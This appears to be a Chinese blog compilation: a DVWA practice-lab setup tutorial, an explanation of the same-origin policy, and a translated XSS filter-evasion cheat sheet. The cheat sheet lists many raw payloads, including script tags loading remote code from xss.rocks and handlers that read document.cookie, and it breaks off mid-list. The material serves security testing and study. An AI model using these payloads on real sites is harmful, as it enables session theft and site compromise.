OneDrive映射到本地（像访问本地磁盘一样访问网盘）
参考以下链接即可： http://baijiahao.baidu.com/s?id=1549908946659905&wfr=spider&for=pc
举一反三，webdav、nfs、samba等都可以使用这种方式挂载，来方便访问。
从零开始的DVWA之环境搭建
文章写于2017年7月6日，很久之前的东西了。
0X01 主机配置
操作系统：Ubuntu-Kylin-16.04-LTS_x64（VritualBox虚拟机）
相关组件：XAMPP+DVWA
0X02 DVWA简介
DVWA是一个用来进行安全脆弱性鉴定（练习挖洞）的PHP/MySQL应用。旨在帮助安全爱好者（黑客白客红客白帽子黑帽子绿帽子等）测试自己的专业技能和工具提供合法的环境（不要瞎搞别人网站，这样不好...），提升技术能力的同时更好的维护比特世界的和平。
0X03 XAMPP简介
XAMPP（Apache+MySQL+PHP+PERL）是一个功能强大的建站集成软件包。这个软件包原来的名字是 LAMPP，但是为了避免误解，最新的几个版本就改名为 XAMPP 了。由于DWVA需要PHP环境，嗯，就由XAMMP来守护了。
0X04 XAMPP和DVWA安装
首先访问官网 https://www.apachefriends.org/zh_cn/download.html 然后点击下载：

接着就会弹个框：

去一趟茅房回来就下完了，你要是嫌弃7下的太慢，可以去下5.6，速度会快些，接着就是安装。
安装过程如下（记得加权限，然后）：


一直点击next就行了……

这里告诉我们XAMPP被安装在/opt/lampp文件（linux一切皆文件）里面。最后点击Finish就完成了安装。
启动XAMPP
#cd /opt/lampp
#./manager-linxu-x64.run
或者
#/opt/lamp/./manage-linux-x64.run

下面我们开始安装DWVA：
首先我们登录官网 http://www.dvwa.co.uk/ 点击DOWNLOAD下载最新版的DWVA，是一个zip文件。

然后将文件解压（提取）到/opt/lamp/htdocs/目录下


接着我们打开XAMPP的MySQL（默认只开了Apache）

然后访问 http://localhost/DVWA-master/index.php 诶!?报错

嗯，根据报错信息可知是配置文件有问题（废话啰），同样的根据提示我们知道要将文件名config.inc.php.dist改为config.inc.php（这里其实涉及到一个linux命令copy的用法，具体可自行百度： http://www.linuxdiyf.com/viewarticle.php?id=38590 ）。改完名字之后就可以访问了，页面会自动跳转到： http://localhost/DVWA-master/setup.php 。然后我们用gedit打开这个文件config.inc.php看看是个什么东西，(⊙o⊙)哦原来是配置文件（废话连篇有木有），我们修改两个地方（1、数据库密码，我知道玩lol的你输入这个密码肯定飞快，不过我是玩dota的。2、安全等级设置为low，简单点容易玩，默认是难的。）

打开之后长这样：

怎么玩呢？我不知道啊，于是我瞎点了几下，

MMP又报错了，根据提示我们知道问题出在red部分,嗯，我们去修改一下所有带红色的地方的配置。
1、搞定PHP function allow_url_include：Disabled
找到php的配置文件，修改allow_url_include=Off 为allow_url_include=on（参考http://php.net/manual/zh/filesystem.configuration.php#ini.allow-url-include）

然后修改/opt/lamp/etc/php.ini

2、解决reCAPTCHA key，配置文件里面有个谷歌连接，点进去剩下的估计你也看得懂应该知道该怎么做额。


3、解决最后的两个NO

我们给这两个文件加权，运行命令：

然后点击

纳尼!?

只好回头再看看XAMPP的数据库配置文件，你会发现他的password默认是被注释了，我们取消注释。

最后你会发现不管怎么搞还是报错……这就尴尬了……
经过尝试，我发现以下配置可以进入登录界面。
XAMPP配置如下：

密码还是按照默认的注释掉

DVWA配置如下：

接着你就能进入登录界面了。恭喜！
http://localhost/DVWA-master/login.php

输入账号密码然后登录就能愉快的玩耍了。

什么？你进不去？账号密码是什么？预知后事如何，请听下回分解。
下集预告：
欢迎来到DVWA的世界，这是你的第一关，登录破解……
同源策略
摘自网络，出处忘了。
同源策略（SOP，Same Origin Policy），两个页面的【协议】【域名】【端口】都相同，则两个页面具有相同的源，任何一个不同都是不同源的。
举例：
假设源是：http://store.company.com/dir/page.html
同源的是：
http://store.company.com/dir2/other.html
http://store.company.com/dir/inner/another.html
不同源的是：
https://store.company.com/secure.html 不同协议 ( https和http )
http://store.company.com:81/dir/etc.html 不同端口 ( 81和80)
http://news.company.com/dir/other.html 不同域名 ( news和store )
同源策略控制内容
同源策略是禁止读取HTTP回复，并不会禁止脚本执行，也不会禁止HTTP请求，因此在防御CSRF上作用是非常有限的，因为CSRF在请求发出的时候就已经达到了攻击的目的。 一般情况下，静态资源通常不受同源策略限制，如有js/css/jpg/png等。
同源策略控制了不同源之间的交互，例如在使用XMLHttpRequest或img标签时则会受到同源策略的约束，这些交互通常分为三类。
- 通常允许跨域写（Cross-origin writes），例如链接（links），重定向以及表单提交。少数特定的HTTP请求需要添加"预检请求"preflight如OPTIONS来查询可用的方法。
- 通常允许跨域资源嵌入（Cross-origin embedding）
- 通常 不允许 跨域读（Cross-origin reads），但常可以通过内嵌资源来巧妙的进行读取访问。例如可以读取嵌入图片的高度和宽度，调用内嵌脚本的方法，或availability of an embedded resource
下面是可能嵌入跨域资源的示例：
<script src="..."></script> 标签嵌入跨域脚本。语法错误信息只能在同源脚本中捕捉到。
<link rel="stylesheet" href="..."> 标签嵌入CSS。由于CSS的松散的语法规则，CSS的跨域需要一个设置正确的Content-Type 消息头。不同浏览器有不同的限制： IE, Firefox, Chrome, Safari (跳至CVE-2010-0051)部分 和 Opera。
<img>嵌入图片。支持的图片格式包括PNG,JPEG,GIF,BMP,SVG,...
<video> 和 <audio>嵌入多媒体资源。
<object>, <embed> 和 <applet> 的插件。
@font-face 引入的字体。一些浏览器允许跨域字体（ cross-origin fonts），一些需要同源字体（same-origin fonts）。
<frame> 和 <iframe> 载入的任何资源。站点可以使用X-Frame-Options消息头来阻止这种形式的跨域交互。
xss测试备忘录
description: 此备忘录来自：https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet 列出了一系列可用于绕过某些XSS防御过滤器的XSS攻击。
最基本的payload
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>xss定位
这个测试将在包含html、js、url、script string等多个上线文中执行
javascript:/*--></title></style></textarea></script></xmp>/[]/+alert(1)//'>图像xss
<IMG SRC="javascript:alert('XSS');">没有引号和分号
<IMG SRC=javascript:alert('XSS')>不区分大小写
<IMG SRC=JaVaScRiPt:alert('XSS')>html实体编码
<IMG SRC=javascript:alert("XSS")>重音符(esc下面tab上面那个符号)
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>错误的a标签
<a onmouseover="alert(document.cookie)">xxs link</a>chrome喜欢替换丢失的引号
<a onmouseover=alert(document.cookie)>xxs link</a>错误的img标签
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">fromCharCode()方法(根据Unicode值显示字符串)
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>默认src标签，用于检查src过滤器
这能绕过大多数src过滤器。在事件方法中插入javascript也适用于使用 form、iframe、input、embed等元素的任何htm标记类型注入，它还允许替换标记类型的任何相关事件，如onblur、onlick
<IMG SRC=# onmouseover="alert('xxs')">将默认src留空
<IMG SRC= onmouseover="alert('xxs')">完全不使用默认src
<IMG onmouseover="alert('xxs')">出错时提示
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img><img src=1 onerror=alert(1)>js编码
<img src=x onerror="javascript:alert('XSS')">十进制html字符引用
所有在img标签中使用javascript代码的xss示例，在Gecko渲染引擎模式下都无法在Firefox或Netscape 8.1+ 中使用。
<IMG SRC=javascript:alert( 'XSS')>变种(不带分号)
通常在过滤 &#xxx; 的情况下有效
过滤的写法——
$tmp_string =~ s/.*\&#(\d+);.*/$1/;<IMG SRC=javascript:a& #0000108ert('XSS')>十六进制html字符引用，不带分号
<IMG SRC=javascript:alert('XSS')>嵌入式标签
<IMG SRC="jav ascript:alert('XSS');">变种(编码)
水平标签
<IMG SRC="jav	ascript:alert('XSS');">换行符
<IMG SRC="jav
ascript:alert('XSS');">回车符
<IMG SRC="jav
ascript:alert('XSS');">null字符或者%00
可以在终端使用以下代码生成 xss payload
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out如下：
<IMG SRC=java^@script:alert("XSS")>空格和元字符在 javascript代码在图像中作为 xss payload之前
<IMG SRC="  javascript:alert('XSS');">非字母非数字的xss
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>变种(Gecko渲染引擎允许在事件处理程序和等号之间使用除字母，数字或封装字符（如引号，尖括号等等）之外的任何字符)
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>IE只允许标记和参数之间是不带空格的斜杠
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>无关的开放式括号
某些检测引擎会首先使用匹配的开启和关闭尖括号对，然后通过内部标记进行比较；双斜杠注释掉结束的无关括号以阻止javascript错误。
<<SCRIPT>alert("XSS");//<</SCRIPT没有关闭脚本标签
<SCRIPT SRC=http://xss.rocks/xss.js?< B >变种(半开html/javascript标签)
半开的标签会扰乱html逻辑，影响payload后面的html，可以用来绕过NIDS正则表达式
/((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/<IMG SRC="javascript:alert('XSS')"变种(双开标签)
firefox会受影响，netscape不会
<iframe src=http://xss.rocks/scriptlet.html <javascript逃逸
当输出javascript中的信息的代码这样写
<SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>并且想要将自己的javascript代码注入服务器端应用程序并逃脱某些引用时，可以通过逃避转移字符来规避它。当以下代码注入时，会被读取为<SCRIPT>var a="\\";alert('XSS');//";</SCRIPT>拆开解读：
<SCRIPT> var a="\\"; 合并前面的双引号 alert('XSS'); //"; </SCRIPT> 转义后面的双引号\";alert('XSS');//另一种方法，如果嵌入的数据应用了对的json或javascript转义，而不是html编码，则
</script><script>alert('XSS');</script>html标签常规属性或方法
</TITLE><SCRIPT>alert("XSS");</SCRIPT> <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"> <BODY BACKGROUND="javascript:alert('XSS')"> <IMG DYNSRC="javascript:alert('XSS')"> <IMG LOWSRC="javascript:alert('XSS')"> <svg/onload=alert('XSS')> <BODY ONLOAD=alert('XSS')> 这里还可以在等号后面加一个空格， ("onload=" 不等于 "onload =")img标签中使用VBscript
ECMAScript 6
Set.constructor`alert \ x28document.domain \ x29其他不常见的标签
